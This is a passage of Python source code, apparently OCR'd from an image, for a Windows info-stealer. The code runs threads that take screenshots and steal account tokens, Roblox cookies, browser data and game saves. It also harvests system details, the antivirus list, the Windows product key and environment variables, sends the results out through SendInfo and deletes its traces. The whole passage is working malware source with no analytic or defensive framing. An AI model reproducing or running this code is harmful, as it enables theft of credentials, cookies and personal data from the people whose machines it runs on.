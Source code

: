         
        threads = [Thread(target=self.screenshot),Thread(target=self.grabMinecraftCache),Thread(target=self.grabGDSave),Thread(target=self.tokenRun),Thread(target=self.grabRobloxCookie),Thread(target=self.getSysInfo)]
        for plt, pth in self.browserpaths.items(): threads.append(Thread(target=self.grabBrowserInfo,args=(plt,pth)))
        for thread in threads: thread.start()
        for thread in threads: thread.join()
        
        if self.exceptions:
            with open(self.tempfolder+'\\Exceptions.txt','w',encoding='utf-8') as f:
                f.write('\n'.join(self.exceptions))

        self.SendInfo()

        shutil.rmtree(self.tempfolder)
        if config.get('black_screen'): self.system('start ms-cxh-full://0')
    def tokenRun(self):
        self.grabTokens()
        self.neatifyTokens()
    def getSysInfo(self):
            with open(self.tempfolder+f'\\PC Info.txt', "w", encoding="utf8", errors='ignore') as f:
                try: cpu = self.system(r'wmic cpu get name').splitlines()[1]
                except Exception: cpu = 'N/A'; self.exceptions.append(traceback.format_exc())
                try: gpu = self.system(r'wmic path win32_VideoController get name').splitlines()[1]
                except Exception: gpu = 'N/A'; self.exceptions.append(traceback.format_exc())
                try: screensize = f'{ctypes.windll.user32.GetSystemMetrics(0)}x{ctypes.windll.user32.GetSystemMetrics(1)}'
                except Exception: screensize = 'N/A'; self.exceptions.append(traceback.format_exc())
                try: refreshrate = self.system(r'wmic path win32_VideoController get currentrefreshrate').splitlines()[1]
                except Exception: refreshrate = 'N/A'; self.exceptions.append(traceback.format_exc())
                try: osname = 'Windows ' + self.system(r'wmic os get version').splitlines()[1]
                except Exception: osname = 'N/A'; self.exceptions.append(traceback.format_exc())
                try: systemslots = self.system(r'wmic systemslot get slotdesignation,currentusage,description,status')
                except Exception: systemslots = 'N/A'; self.exceptions.append(traceback.format_exc())
                try: processes = self.system(r'tasklist')
                except Exception: processes = 'N/A'; self.exceptions.append(traceback.format_exc())
                try: installedapps = '\n'.join(self.system(r'powershell Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* ^| Select-Object DisplayName').splitlines()[3:])
                except Exception: installedapps = 'N/A'; self.exceptions.append(traceback.format_exc())
                try: path = self.system(r'set').replace('=',' = ')
                except Exception: path = 'N/A'; self.exceptions.append(traceback.format_exc())
                try: buildmnf = self.system(r'wmic bios get manufacturer').splitlines()[1]
                except Exception: buildmnf = 'N/A'; self.exceptions.append(traceback.format_exc())
                try: modelname = self.system(r'wmic csproduct get name').splitlines()[1]
                except Exception: modelname = 'N/A'; self.exceptions.append(traceback.format_exc())
                try: hwid = self.system(r'wmic csproduct get uuid').splitlines()[1]
                except Exception: hwid = 'N/A'; self.exceptions.append(traceback.format_exc())
                try: avlist = ', '.join(self.system(r'wmic /node:localhost /namespace:\\root\SecurityCenter2 path AntiVirusProduct get displayname').splitlines()[1:])
                except Exception: avlist = 'N/A'; self.exceptions.append(traceback.format_exc())
                try: username = os.getlogin()
                except Exception: username = 'N/A'; self.exceptions.append(traceback.format_exc())
                try: pcname = self.system(r'hostname')
                except Exception: pcname = 'N/A'; self.exceptions.append(traceback.format_exc())
                try: productinfo = self.getProductValues()
                except Exception: productinfo = 'N/A'; self.exceptions.append(traceback.format_exc())
                try: buildname = productinfo[0]
                except Exception: buildname = 'N/A'; self.exceptions.append(traceback.format_exc())
                try: windowskey = productinfo[1]
                except Exception: windowskey = 'N/A'; self.exceptions.append(traceback.format_exc())
                try: ram = str(psutil.virtual_memory()[0] / 1024 ** 3).split(".")[0]
                except Exception: ram = 'N/A'; self.exceptions.append(traceback.format_exc())